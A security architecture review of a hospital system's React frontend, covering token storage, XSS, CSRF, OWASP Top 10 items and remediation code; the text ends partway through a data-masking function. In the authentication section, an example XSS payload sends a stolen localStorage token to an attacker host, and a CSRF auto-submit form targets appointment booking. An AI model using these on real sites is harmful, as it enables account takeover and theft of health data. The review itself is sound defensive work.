

# PHB Hospital System - Security Architecture Review

## Executive Summary

This document provides a comprehensive security assessment of the PHB Hospital System frontend application, identifying vulnerabilities, security architecture patterns, and recommended improvements.

### Security Posture Overview

| Category | Status | Severity | Priority |
|----------|--------|----------|----------|
| **Authentication Storage** | ⚠️ Partial | HIGH | P0 |
| **XSS Protection** | ⚠️ Partial | HIGH | P0 |
| **CSRF Protection** | ⚠️ Partial | MEDIUM | P1 |
| **Input Validation** | ⚠️ Partial | MEDIUM | P1 |
| **File Upload Security** | ✅ Good | LOW | P2 |
| **HTTPS Enforcement** | ✅ Required | LOW | - |
| **Dependency Security** | ⚠️ Unknown | MEDIUM | P1 |

**Key Findings**:
- 🔴 **CRITICAL**: localStorage token storage exposes 2/3 auth contexts to XSS
- 🟡 **HIGH**: Mixed authentication strategies create inconsistent security
- 🟢 **POSITIVE**: Organization auth uses secure httpOnly cookies
- 🟢 **POSITIVE**: OTP protection for sensitive medical records
- 🟢 **POSITIVE**: Comprehensive file upload validation

## Table of Contents

1. [Authentication Security](#authentication-security)
2. [Storage Security](#storage-security)
3. [XSS Protection](#xss-protection)
4. [CSRF Protection](#csrf-protection)
5. [Input Validation](#input-validation)
6. [File Upload Security](#file-upload-security)
7. [Dependency Security](#dependency-security)
8. [OWASP Top 10 Compliance](#owasp-top-10-compliance)
9. [PII Data Protection](#pii-data-protection)
10. [Security Recommendations](#security-recommendations)

## Authentication Security

### Current Implementation

The system implements three separate authentication contexts with **inconsistent security levels**:

#### 1. User Authentication (AuthContext)

**File**: `src/features/auth/authContext.tsx:1-100`

**Current Implementation**:
```typescript
// VULNERABLE: Token stored in localStorage
localStorage.setItem('phb_token', response.data.access);
```

**Vulnerabilities**:
- ❌ **XSS Vulnerable**: Any XSS attack can steal the token
- ❌ **Accessible to JavaScript**: Can be read by any script
- ❌ **No Expiration Enforcement**: Client-side expiration can be bypassed
- ❌ **CSRF Vulnerable**: Token must be manually attached to requests

**Attack Scenario**:
```javascript
// Malicious XSS payload can steal token
<script>
  const token = localStorage.getItem('phb_token');
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token })
  });
</script>
```

**Severity**: 🔴 **CRITICAL**

**Impact**:
- Complete account takeover
- Access to medical records
- Ability to book appointments
- Access to personal health information (PHI)
- HIPAA compliance violation

#### 2. Professional Authentication (ProfessionalAuthContext)

**File**: `src/features/professional/professionalAuthContext.tsx:1-100`

**Current Implementation**:
```typescript
// VULNERABLE: Hybrid approach with localStorage
localStorage.setItem('phb_professional_token', token);
```

**Additional Vulnerabilities**:
- ❌ **Same XSS vulnerabilities as User Auth**
- ❌ **Dual authentication complexity**: Relies on both user auth AND professional registry
- ❌ **No token rotation**: Tokens persist indefinitely
- ❌ **Sensitive medical data access**: Can access patient information

**Severity**: 🔴 **CRITICAL**

**Impact**:
- Access to patient medical records
- Ability to view/modify prescriptions
- Access to appointment schedules
- HIPAA/PHI compliance violations

#### 3. Organization Authentication (OrganizationAuthContext) ✅

**File**: `src/features/organization/organizationAuthContext.tsx:1-100`

**Current Implementation**:
```typescript
// SECURE: Uses httpOnly cookies
// Cookies set by backend:
// - access_token (httpOnly, secure, sameSite: Lax)
// - refresh_token (httpOnly, secure, sameSite: Lax)

const response = await fetch('http://127.0.0.1:8000/api/token/refresh/', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  credentials: 'include' // Automatically sends cookies
});
```

**Security Features**:
- ✅ **XSS Protected**: JavaScript cannot access httpOnly cookies
- ✅ **Automatic Token Refresh**: Every 25 minutes
- ✅ **2FA Required**: Additional security layer
- ✅ **CSRF Headers**: Properly configured
- ✅ **Secure Cookie Flags**: httpOnly, secure, sameSite

**Best Practice Implementation**: This is the **correct** authentication pattern.

### Authentication Comparison Table

| Feature | User Auth | Professional Auth | Organization Auth |
|---------|-----------|-------------------|-------------------|
| **Storage** | localStorage ❌ | localStorage ❌ | httpOnly cookies ✅ |
| **XSS Protection** | None ❌ | None ❌ | Full ✅ |
| **CSRF Protection** | Manual ⚠️ | Manual ⚠️ | Built-in ✅ |
| **Token Refresh** | Manual ⚠️ | Manual ⚠️ | Auto (25min) ✅ |
| **2FA** | Optional ⚠️ | None ❌ | Required ✅ |
| **Session Management** | Client ⚠️ | Client ⚠️ | Server ✅ |

## Storage Security

### Sensitive Data in localStorage

**Analysis**: The following sensitive data is stored in browser localStorage:

#### User Authentication Storage

```typescript
// File: src/features/auth/authContext.tsx
localStorage.setItem('phb_token', token);                    // JWT token
localStorage.setItem('phb_user', JSON.stringify(user));      // User profile data
```

**Data Exposed**:
- JWT access token
- User full name
- Email address
- HPN (Health Personal Number)
- Gender
- Date of birth
- Phone number
- Address
- NIN/SSN (if provided)

**Vulnerability**: All this data can be stolen via XSS.

#### Professional Authentication Storage

```typescript
// File: src/features/professional/professionalAuthContext.tsx
localStorage.setItem('phb_professional_token', token);
localStorage.setItem('phb_professional_auth_state', JSON.stringify(state));
localStorage.setItem('phb_view_preference', viewPreference);
```

**Data Exposed**:
- Professional JWT token
- License number
- Specialty
- Professional type
- Verification status

#### Contact Preferences Storage

```typescript
localStorage.setItem('phb_contact_preferences', JSON.stringify(preferences));
```

**Risk Level**: MEDIUM (Preference data, not critical but privacy concern)

### Recommended Storage Strategy

```typescript
// ✅ SECURE: Move to httpOnly cookies (backend-managed)
// Backend sets cookies:
Set-Cookie: access_token=<jwt>; HttpOnly; Secure; SameSite=Lax; Max-Age=1800
Set-Cookie: refresh_token=<jwt>; HttpOnly; Secure; SameSite=Lax; Max-Age=604800

// ⚠️ ACCEPTABLE: Non-sensitive preferences in localStorage
localStorage.setItem('theme', 'dark');
localStorage.setItem('language', 'en');

// ❌ NEVER: Sensitive data in localStorage
// Don't store: tokens, PII, medical data, credentials
```

## XSS Protection

### Current Protection Measures

#### 1. React's Built-in XSS Protection

**Protection**: React automatically escapes values in JSX.

```typescript
// ✅ SAFE: React escapes this automatically
<div>{user.name}</div>

// ❌ UNSAFE: dangerouslySetInnerHTML bypasses protection
<div dangerouslySetInnerHTML={{ __html: userContent }} />
```

**Analysis**: Search for `dangerouslySetInnerHTML` usage:

```bash
# Search command
grep -r "dangerouslySetInnerHTML" src/
```

**Findings**: Need to verify if any components use `dangerouslySetInnerHTML` with user-generated content.

#### 2. Content Security Policy (CSP)

**Current Status**: ❌ **NOT IMPLEMENTED**

**Recommended CSP Header**:
```http
Content-Security-Policy: 
  default-src 'self';
  script-src 'self' 'unsafe-inline' https://js.paystack.co;
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  font-src 'self' data:;
  connect-src 'self' http://127.0.0.1:8000 https://api.paystack.co;
  frame-src https://checkout.paystack.com;
```

**Implementation Location**: `netlify.toml` or `index.html`

#### 3. Input Sanitization

**Current Implementation**: ⚠️ **PARTIAL**

**Analysis Needed**:
- Form inputs: Need to verify backend validation
- Rich text editors: If any exist, must use DOMPurify
- Search queries: Need to verify escaping

### XSS Attack Vectors

#### Vector 1: Stored XSS in Medical Records

**Scenario**: Doctor enters notes with malicious script

```javascript
// Malicious doctor input
const notes = "<script>alert('XSS')</script>Patient seems healthy";

// If rendered with dangerouslySetInnerHTML:
<div dangerouslySetInnerHTML={{ __html: notes }} /> // ❌ UNSAFE
```

**Mitigation**:
```typescript
// ✅ SAFE: Use React's automatic escaping
<div>{notes}</div>

// ✅ SAFE: Or sanitize with DOMPurify if HTML is needed
import DOMPurify from 'dompurify';
<div dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(notes) }} />
```

#### Vector 2: Reflected XSS in Search

**Scenario**: Search query reflected without escaping

```typescript
// Vulnerable search implementation
const searchQuery = new URLSearchParams(location.search).get('q');
<div>Search results for: {searchQuery}</div> // ✅ SAFE (React escapes)

// But if using innerHTML:
element.innerHTML = `Search results for: ${searchQuery}`; // ❌ UNSAFE
```

**Current Implementation**: Need to audit search components.

#### Vector 3: DOM-Based XSS

**Scenario**: URL parameters used in DOM manipulation

```typescript
// ❌ UNSAFE: Direct DOM manipulation with URL params
const hash = window.location.hash;
document.getElementById('content').innerHTML = hash.substring(1);

// ✅ SAFE: Use React state
const [content, setContent] = useState('');
useEffect(() => {
  const hash = window.location.hash;
  setContent(hash.substring(1)); // React will escape
}, []);
```

## CSRF Protection

### Current Implementation

#### Organization Auth (Protected ✅)

**Method**: httpOnly cookies + SameSite attribute

```typescript
// Cookies automatically sent with requests
credentials: 'include'

// Backend cookie configuration:
{
  httpOnly: true,
  secure: true,
  sameSite: 'Lax' // Prevents CSRF on state-changing requests
}
```

**Protection Level**: ✅ **GOOD**

#### User & Professional Auth (Vulnerable ⚠️)

**Method**: Manual token attachment

```typescript
// Token must be manually attached
headers: {
  'Authorization': `Bearer ${localStorage.getItem('phb_token')}`
}
```

**Vulnerability**:
- No CSRF token validation
- Relies on CORS for protection
- CORS can be bypassed in certain scenarios

**Recommended Fix**:
```typescript
// Option 1: Migrate to httpOnly cookies (best)
// Option 2: Add CSRF token to requests
headers: {
  'Authorization': `Bearer ${token}`,
  'X-CSRF-Token': getCsrfToken()
}
```

### CSRF Attack Scenario

**Attack**: Malicious website triggers authenticated request

```html
<!-- Attacker's website -->
<form action="http://phb-system.com/api/appointments/book" method="POST">
  <input type="hidden" name="department" value="1" />
  <input type="hidden" name="date" value="2025-01-20" />
</form>
<script>
  document.forms[0].submit();
</script>
```

**Impact**:
- If user is logged in, appointment could be booked
- Medical records could be accessed
- Profile could be modified

**Current Protection**:
- ✅ CORS blocks cross-origin requests
- ⚠️ But CORS can be bypassed with certain configurations
- ⚠️ No additional CSRF protection

## Input Validation

### Client-Side Validation

**Current Implementation**: ⚠️ **INCONSISTENT**

#### Form Validation Patterns

**Pattern 1**: React Hook Form (if used)
```typescript
// ✅ GOOD: Structured validation
const schema = yup.object().shape({
  email: yup.string().email().required(),
  password: yup.string().min(8).required()
});
```

**Pattern 2**: Manual validation
```typescript
// ⚠️ BASIC: Manual checks
if (!email.includes('@')) {
  setError('Invalid email');
}
```

**Pattern 3**: No validation
```typescript
// ❌ BAD: Directly sends to backend
await api.updateProfile({ name: inputValue });
```

### Critical Input Validation Gaps

#### 1. Medical Records Input

**Location**: Medical record forms, doctor notes

**Required Validation**:
- Maximum length limits
- Character whitelist (prevent code injection)
- Sanitization before display

#### 2. File Upload Validation

**Location**: `src/components/security/SecureFileUpload.tsx`

**Current Implementation**: ✅ **EXCELLENT**

```typescript
// File type validation
const ALLOWED_TYPES = ['application/pdf', 'image/jpeg', 'image/png'];

// File size validation
const MAX_FILE_SIZE = 10 * 1024 * 1024; // 10MB

// Virus scanning integration
// Encryption before upload
```

**Strengths**:
- ✅ File type whitelist
- ✅ Size limits
- ✅ Virus scanning
- ✅ Progress tracking
- ✅ Encrypted preview

#### 3. Prescription Input

**Risk**: Malicious prescription data

**Required Validation**:
- Drug name validation (must exist in database)
- Dosage format validation
- Date validation (not in past for prescriptions)
- Quantity limits

#### 4. Appointment Booking Input

**Current**: Conflict checking implemented

**File**: `src/services/appointmentService.ts:75-80`

**Validation Needed**:
- Date range (not too far in future)
- Department exists
- Doctor availability
- Duplicate prevention

## File Upload Security

### Comprehensive Security Implementation

**Location**: `src/components/security/`

The file upload security is one of the **strongest** parts of the system.

#### Security Components

**1. File Validator** (`FileValidator.tsx`)
```typescript
// Type validation
const validTypes = ['application/pdf', 'image/jpeg', 'image/png', 'image/jpg'];

// Size validation
if (file.size > MAX_FILE_SIZE) {
  throw new Error('File too large');
}

// Extension check
const ext = file.name.split('.').pop()?.toLowerCase();
if (!ALLOWED_EXTENSIONS.includes(ext)) {
  throw new Error('Invalid file type');
}
```

**2. Virus Scanner** (`VirusScanner.tsx`)
```typescript
// Integration with backend virus scanning
const scanResult = await fetch('/api/scan-file/', {
  method: 'POST',
  body: formData
});

if (!scanResult.clean) {
  throw new Error('File contains malware');
}
```

**3. Encrypted Preview** (`EncryptedPreview.tsx`)
```typescript
// Secure file preview without exposing original
// Client-side encryption before displaying
```

**4. Upload Progress** (`UploadProgress.tsx`)
```typescript
// Visual feedback during upload
// Prevents UI blocking
// Allows cancellation
```

### File Upload Flow



**Security Score**: ✅ **9/10** (Excellent)

**Strengths**:
- ✅ Multiple validation layers
- ✅ Virus scanning
- ✅ Type and size restrictions
- ✅ Encrypted storage
- ✅ Progress tracking

**Minor Improvements**:
- Add file content verification (not just extension)
- Implement file quarantine on suspicious uploads
- Add upload rate limiting

## Dependency Security

### Vulnerability Scanning

**Current Status**: ❌ **NOT IMPLEMENTED**

**Required Actions**:

1. **Add npm audit to CI/CD**
```bash
# Check for known vulnerabilities
npm audit

# Fix automatically fixable issues
npm audit fix

# Check high/critical only
npm audit --audit-level=high
```

2. **Add Dependabot** (GitHub)
```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "npm"
    directory: "/"
    schedule:
      interval: "weekly"
    open-pull-requests-limit: 10
```

3. **Add Snyk Integration**
```bash
# Install Snyk
npm install -g snyk

# Authenticate
snyk auth

# Test for vulnerabilities
snyk test

# Monitor continuously
snyk monitor
```

### Critical Dependencies

**High-Risk Dependencies** (Need regular monitoring):

| Package | Version | Risk Level | Reason |
|---------|---------|------------|--------|
| **axios** | 1.9.0 | MEDIUM | HTTP client - attack surface |
| **react-router-dom** | 6.15.0 | MEDIUM | Routing - XSS if misconfigured |
| **dicom-parser** | 1.8.21 | HIGH | Medical file parsing - potential exploits |
| **pdf-lib** | 1.17.1 | MEDIUM | PDF generation - known vulnerabilities |
| **tesseract.js** | 6.0.1 | MEDIUM | OCR - large attack surface |

**Recommendation**: Set up automated scanning and update frequently.

## OWASP Top 10 Compliance

### A01:2021 – Broken Access Control

**Status**: ⚠️ **PARTIAL**

**Issues**:
- ✅ Route guards implemented for all protected routes
- ✅ Role-based access via `hasAccess()` for professionals
- ✅ Hospital status guard for appointment routes
- ⚠️ Backend authorization must be verified (not frontend-only)
- ❌ No audit logging for access attempts

**Example - Good Implementation**:
```typescript
// src/features/professional/ProfessionalRouteGuard.tsx
const ProfessionalRouteGuard = ({ children }) => {
  const { isAuthenticated, professionalUser } = useProfessionalAuth();

  if (!isAuthenticated || !professionalUser) {
    return <Navigate to="/professional/login" />;
  }

  return <>{children}</>;
};
```

**Vulnerability**:
```typescript
// ❌ BAD: Client-side check only
if (user.role === 'admin') {
  // Show delete button
}
// Attacker can modify role in localStorage

// ✅ GOOD: Backend must verify
// Frontend hides UI, backend enforces authorization
```

### A02:2021 – Cryptographic Failures

**Status**: ⚠️ **MIXED**

**Issues**:
- ✅ HTTPS enforced (Netlify)
- ✅ Encrypted file storage (S3 with encryption)
- ⚠️ Passwords sent over HTTPS (good) but need backend hashing verification
- ❌ Sensitive data in localStorage (unencrypted)
- ❌ No client-side encryption for PHI before transmission

**Recommendations**:
```typescript
// Encrypt sensitive data before localStorage (temporary solution)
import CryptoJS from 'crypto-js';

const encrypted = CryptoJS.AES.encrypt(
  JSON.stringify(sensitiveData),
  SECRET_KEY
).toString();

localStorage.setItem('data', encrypted);

// Better: Use httpOnly cookies (server-managed encryption)
```

### A03:2021 – Injection

**Status**: ✅ **GOOD**

**Protection**:
- ✅ React automatically escapes JSX values
- ✅ Parameterized API calls (no SQL injection risk from frontend)
- ✅ No eval() or Function() usage detected
- ⚠️ Need to verify no dangerouslySetInnerHTML with user content

**Verification Needed**:
```bash
# Search for dangerous patterns
grep -r "dangerouslySetInnerHTML" src/
grep -r "innerHTML" src/
grep -r "eval(" src/
```

### A04:2021 – Insecure Design

**Status**: ⚠️ **NEEDS IMPROVEMENT**

**Issues**:
- ❌ Inconsistent authentication mechanisms (3 different approaches)
- ❌ No rate limiting on client (login attempts, API calls)
- ⚠️ Medical records access via OTP is good but needs audit trail
- ❌ No session timeout enforcement on client

**Recommendations**:
- Standardize all auth to httpOnly cookies
- Implement client-side rate limiting UI feedback
- Add session timeout warnings
- Implement comprehensive audit logging

### A05:2021 – Security Misconfiguration

**Status**: ⚠️ **NEEDS ATTENTION**

**Issues**:
- ❌ No Content Security Policy (CSP) headers
- ❌ Debug logs in production (`console.log` statements)
- ✅ Source maps disabled in production (`vite.config.ts:16`)
- ⚠️ Environment variables need validation
- ❌ No security headers (X-Frame-Options, X-Content-Type-Options)

**Required Headers** (`netlify.toml` or `_headers` file):
```
/*
  X-Frame-Options: DENY
  X-Content-Type-Options: nosniff
  X-XSS-Protection: 1; mode=block
  Referrer-Policy: strict-origin-when-cross-origin
  Permissions-Policy: geolocation=(), microphone=(), camera=()
  Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' https://js.paystack.co; connect-src 'self' http://127.0.0.1:8000 https://api.paystack.co;
```

### A06:2021 – Vulnerable and Outdated Components

**Status**: ❌ **NOT MONITORED**

**Actions Required**:
1. Run `npm audit` regularly
2. Set up Dependabot
3. Update dependencies monthly
4. Monitor security advisories

**Current Risk**:
- 165k+ lines of code with 80+ dependencies
- No automated vulnerability scanning
- Some dependencies may have known CVEs

### A07:2021 – Identification and Authentication Failures

**Status**: 🔴 **CRITICAL ISSUES**

**Major Issues**:
1. ❌ **localStorage token storage** (2 of 3 auth contexts)
   - Vulnerable to XSS
   - No secure storage
   - Tokens accessible to any script

2. ⚠️ **Password Reset Flow**
   - Need to verify token expiration
   - Need to verify one-time use
   - Need to verify rate limiting

3. ⚠️ **Session Management**
   - No automatic session timeout
   - No concurrent session detection
   - No session revocation mechanism

4. ✅ **2FA for Organizations** (Good!)
   - Required for organization admins
   - Proper implementation

**Remediation Priority**: 🔴 P0 (Highest)

### A08:2021 – Software and Data Integrity Failures

**Status**: ⚠️ **PARTIAL**

**Issues**:
- ✅ Dependencies from npm registry (trusted source)
- ✅ Lock file (`package-lock.json`) ensures consistent installs
- ❌ No subresource integrity (SRI) for CDN resources
- ❌ No code signing
- ⚠️ Build artifacts not verified

**If using CDNs**, add SRI:
```html
<script 
  src="https://cdn.example.com/library.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/ux..."
  crossorigin="anonymous">
</script>
```

### A09:2021 – Security Logging and Monitoring Failures

**Status**: ❌ **NOT IMPLEMENTED**

**Missing**:
- ❌ No client-side error logging
- ❌ No security event logging
- ❌ No failed login attempt tracking
- ❌ No audit trail for sensitive operations
- ❌ No monitoring/alerting

**Recommendations**:
```typescript
// Add security event logging
const logSecurityEvent = (event: string, details: any) => {
  fetch('/api/audit-log/', {
    method: 'POST',
    body: JSON.stringify({
      event,
      details,
      timestamp: new Date().toISOString(),
      userAgent: navigator.userAgent
    })
  });
};

// Log critical events
logSecurityEvent('login_attempt', { email, success: false });
logSecurityEvent('medical_record_access', { recordId, otpUsed: true });
logSecurityEvent('file_upload', { fileType, size, scanResult });
```

### A10:2021 – Server-Side Request Forgery (SSRF)

**Status**: ✅ **LOW RISK** (Frontend)

**Analysis**:
- Frontend doesn't make server-side requests (no SSR)
- All API calls go to known backend endpoint
- No user-controlled URLs in fetch() calls
- Low risk for frontend app

**Note**: Backend must still protect against SSRF

## PII Data Protection

### Personal Identifiable Information (PII) Inventory

**Data Collected**:

| Data Type | Storage Location | Encryption | Access Control |
|-----------|-----------------|------------|----------------|
| Full Name | localStorage ❌ | None ❌ | XSS vulnerable ❌ |
| Email | localStorage ❌ | None ❌ | XSS vulnerable ❌ |
| HPN | localStorage ❌ | None ❌ | XSS vulnerable ❌ |
| Phone | localStorage ❌ | None ❌ | XSS vulnerable ❌ |
| Address | localStorage ❌ | None ❌ | XSS vulnerable ❌ |
| Date of Birth | localStorage ❌ | None ❌ | XSS vulnerable ❌ |
| Gender | localStorage ❌ | None ❌ | XSS vulnerable ❌ |
| NIN/SSN | localStorage ❌ | None ❌ | XSS vulnerable ❌ |
| Medical Records | Backend/S3 ✅ | AES-256 ✅ | OTP required ✅ |
| Prescriptions | Backend ✅ | AES-256 ✅ | Auth required ✅ |

### PHI (Protected Health Information) Handling

**HIPAA Compliance Requirements**:

1. **Encryption at Rest** ✅
   - Medical records encrypted in S3
   - Database encryption (backend)

2. **Encryption in Transit** ✅
   - HTTPS enforced
   - TLS 1.2+ required

3. **Access Controls** ⚠️
   - Medical records require OTP ✅
   - But auth tokens vulnerable to XSS ❌

4. **Audit Logging** ❌
   - No comprehensive audit trail
   - Need to log all PHI access

5. **Data Minimization** ⚠️
   - Collecting necessary data ✅
   - But storing insecurely in localStorage ❌

**Compliance Risk**: 🔴 **HIGH**

**Recommended Actions**:
1. Migrate all auth to httpOnly cookies (P0)
2. Implement comprehensive audit logging (P0)
3. Add data masking for sensitive fields (P1)
4. Implement data retention policies (P1)
5. Add GDPR/HIPAA consent tracking (P2)

## Security Recommendations

### Priority 0 (Critical - Implement Immediately)

#### 1. Migrate to HttpOnly Cookies for All Authentication

**Issue**: User and Professional auth use localStorage (XSS vulnerable)

**Current**:
```typescript
// ❌ VULNERABLE
localStorage.setItem('phb_token', token);
localStorage.setItem('phb_user', JSON.stringify(user));
```

**Recommended**:
```typescript
// ✅ SECURE: Backend sets httpOnly cookies
// Frontend just makes authenticated requests
const response = await fetch('/api/profile/', {
  credentials: 'include' // Automatically sends cookies
});
```

**Implementation Steps**:
1. Update backend to set httpOnly cookies for user/professional auth
2. Remove all localStorage token code
3. Update all service methods to use `credentials: 'include'`
4. Implement automatic token refresh (25-minute interval)
5. Add CSRF protection
6. Test thoroughly

**Effort**: 2-3 weeks (Backend + Frontend changes)

**Impact**: Eliminates #1 security vulnerability

#### 2. Implement Content Security Policy

**Issue**: No CSP headers leave app vulnerable to XSS

**Implementation** (`netlify.toml`):
```toml
[[headers]]
  for = "/*"
  [headers.values]
    Content-Security-Policy = """
      default-src 'self';
      script-src 'self' 'unsafe-inline' https://js.paystack.co;
      style-src 'self' 'unsafe-inline' https://fonts.googleapis.com;
      font-src 'self' https://fonts.gstatic.com;
      img-src 'self' data: https:;
      connect-src 'self' http://127.0.0.1:8000 https://api.paystack.co;
      frame-src https://checkout.paystack.com;
    """
    X-Frame-Options = "DENY"
    X-Content-Type-Options = "nosniff"
    X-XSS-Protection = "1; mode=block"
    Referrer-Policy = "strict-origin-when-cross-origin"
```

**Effort**: 1 day (Plus testing and refinement)

**Impact**: Prevents XSS attacks

#### 3. Add Security Audit Logging

**Issue**: No tracking of security-sensitive operations

**Implementation**:
```typescript
// src/utils/auditLogger.ts
export const logAuditEvent = async (event: AuditEvent) => {
  try {
    await fetch(`${API_BASE_URL}/api/audit-log/`, {
      method: 'POST',
      credentials: 'include',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({
        event_type: event.type,
        resource: event.resource,
        action: event.action,
        timestamp: new Date().toISOString(),
        ip_address: await getClientIP(),
        user_agent: navigator.userAgent,
        success: event.success,
        details: event.details
      })
    });
  } catch (error) {
    console.error('Audit logging failed:', error);
  }
};

// Usage
logAuditEvent({
  type: 'medical_record_access',
  resource: 'medical_record',
  action: 'view',
  success: true,
  details: { recordId: '123', otpVerified: true }
});
```

**Events to Log**:
- Login attempts (success/failure)
- Medical record access
- Prescription creation/modification
- File uploads
- Profile changes
- Password resets
- 2FA verification attempts

**Effort**: 1-2 weeks

**Impact**: HIPAA compliance, security monitoring

### Priority 1 (High - Implement Soon)

#### 4. Implement Rate Limiting

**Issue**: No protection against brute force attacks

**Client-Side Rate Limiting UI**:
```typescript
// src/hooks/useRateLimit.ts
export const useRateLimit = (maxAttempts: number, windowMs: number) => {
  const [attempts, setAttempts] = useState(0);
  const [blockedUntil, setBlockedUntil] = useState<number | null>(null);

  const checkLimit = () => {
    if (blockedUntil && Date.now() < blockedUntil) {
      return { allowed: false, remainingTime: blockedUntil - Date.now() };
    }

    if (attempts >= maxAttempts) {
      const blockUntil = Date.now() + windowMs;
      setBlockedUntil(blockUntil);
      return { allowed: false, remainingTime: windowMs };
    }

    setAttempts(prev => prev + 1);
    return { allowed: true, remainingTime: 0 };
  };

  return { checkLimit, attempts };
};

// Usage
const { checkLimit } = useRateLimit(5, 15 * 60 * 1000); // 5 attempts per 15 min

const handleLogin = async () => {
  const { allowed, remainingTime } = checkLimit();

  if (!allowed) {
    toast.error(`Too many attempts. Try again in ${remainingTime / 1000}s`);
    return;
  }

  // Proceed with login
};
```

**Backend Rate Limiting**: Also required (not just frontend)

**Effort**: 3-5 days

**Impact**: Prevents brute force attacks

#### 5. Add Session Timeout

**Issue**: No automatic session expiration

**Implementation**:
```typescript
// src/hooks/useSessionTimeout.ts
export const useSessionTimeout = (timeoutMs: number) => {
  const { logout } = useAuth();
  const timeoutRef = useRef<NodeJS.Timeout | null>(null);

  const resetTimeout = useCallback(() => {
    if (timeoutRef.current) {
      clearTimeout(timeoutRef.current);
    }

    timeoutRef.current = setTimeout(() => {
      toast.warning('Session expired due to inactivity');
      logout();
    }, timeoutMs);
  }, [timeoutMs, logout]);

  useEffect(() => {
    // Reset on user activity
    const events = ['mousedown', 'keydown', 'scroll', 'touchstart'];

    events.forEach(event => {
      document.addEventListener(event, resetTimeout);
    });

    resetTimeout(); // Initial timeout

    return () => {
      events.forEach(event => {
        document.removeEventListener(event, resetTimeout);
      });
      if (timeoutRef.current) {
        clearTimeout(timeoutRef.current);
      }
    };
  }, [resetTimeout]);
};

// Usage in AuthContext
useSessionTimeout(30 * 60 * 1000); // 30 minutes
```

**Effort**: 2-3 days

**Impact**: Security best practice, reduces session hijacking risk

#### 6. Dependency Vulnerability Scanning

**Issue**: No automated security scanning

**Implementation**:

```json
// package.json - Add script
{
  "scripts": {
    "security:audit": "npm audit --audit-level=moderate",
    "security:check": "npm audit && snyk test",
    "precommit": "npm run security:audit"
  }
}
```

**GitHub Actions** (`.github/workflows/security.yml`):
```yaml
name: Security Scan

on:
  push:
    branches: [ main ]
  pull_request:
    branches: [ main ]
  schedule:
    - cron: '0 0 * * 0' # Weekly

jobs:
  security:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - uses: actions/setup-node@v2

      - name: Install dependencies
        run: npm ci

      - name: Run npm audit
        run: npm audit --audit-level=moderate

      - name: Run Snyk test
        uses: snyk/actions/node@master
        env:
          SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
```

**Effort**: 1 day setup, ongoing monitoring

**Impact**: Early vulnerability detection

### Priority 2 (Medium - Implement When Possible)

#### 7. Input Sanitization Library

**Issue**: Inconsistent input handling

**Recommended**: DOMPurify for HTML sanitization

```bash
npm install dompurify @types/dompurify
```

```typescript
// src/utils/sanitize.ts
import DOMPurify from 'dompurify';

export const sanitizeHTML = (dirty: string): string => {
  return DOMPurify.sanitize(dirty, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'p', 'br'],
    ALLOWED_ATTR: []
  });
};

export const sanitizeInput = (input: string): string => {
  return input
    .trim()
    .replace(/[<>\"']/g, '') // Remove dangerous characters
    .substring(0, 1000); // Length limit
};

// Usage
const cleanNotes = sanitizeHTML(doctorNotes);
<div dangerouslySetInnerHTML={{ __html: cleanNotes }} />
```

**Effort**: 2-3 days

**Impact**: Additional XSS protection layer

#### 8. PII Data Masking

**Issue**: Sensitive data fully visible in UI

**Implementation**:
```typescript
// src/utils/dataMasking.ts
export const maskEmail = (email: string): string => {
  const [name, domain] = email.split('@');
  return `${name[0]}${'*'.repeat(name.length - 2)}${name[name.length - 1]}@${domain}`;
};

export const maskPhone = (phone: string): string => {
